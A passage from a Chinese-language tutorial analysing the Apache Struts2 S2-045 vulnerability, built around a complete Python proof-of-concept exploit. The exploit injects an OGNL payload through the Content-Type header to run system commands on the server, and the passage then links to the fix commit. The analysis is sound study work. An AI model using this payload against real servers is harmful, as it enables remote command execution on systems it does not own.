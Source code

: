 
## 结合PoC 和源码来理解这类漏洞的原理

  前面说了很多二进制(主要是C/C++ )的例子,现在来一个JAVA 库Struts2 的分析.以S2-045 为例子,从PoC 到触发漏洞的原理再深入理解WEB 类漏洞是怎么来挖的.我去百度了一个S2-045 的EXP .

```python

    import urllib2
    import sys
    from poster.encode import multipart_encode
    from poster.streaminghttp import register_openers

    def poc():
        register_openers()
        datagen, header = multipart_encode({"image1": open("tmp.txt", "rb")})  #  构造Post 数据包
        header["User-Agent"]="Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36"
        header["Content-Type"]="%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='ifconfig').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"  #  在Content-Type 中插入OGNL 利用代码
        request = urllib2.Request(str(sys.argv[1]),datagen,headers=header)  #  发送EXP
        response = urllib2.urlopen(request)
        print response.read()

    poc()

```

  从PoC 里我们得知,恶意代码是从`Content-Type` 里面传递到漏洞点执行的.翻了翻Issus ,找到当时修复的Diff ,Link:https://github.com/apache/struts/commit/b06dd50af2a3319dd896bf5c2f4972d2b772cf2b

![](pic4/struts2_fix.png)

